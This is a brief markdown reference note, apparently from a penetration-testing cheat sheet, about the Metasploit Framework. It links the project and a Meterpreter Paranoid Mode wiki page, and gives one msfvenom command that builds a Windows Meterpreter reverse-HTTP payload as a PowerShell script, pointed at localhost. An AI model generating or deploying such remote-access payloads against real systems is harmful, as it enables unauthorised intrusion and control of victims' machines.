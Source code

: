 # Metasploit Framework
* https://github.com/rapid7/metasploit-framework
```
msfvenom --payload windows/x64/meterpreter_reverse_http --format psh --out meterpreter-64.ps1 LHOST=127.0.0.1
```

## Meterpreter Paranoid Mode
* https://github.com/rapid7/metasploit-framework/wiki/Meterpreter-Paranoid-Mode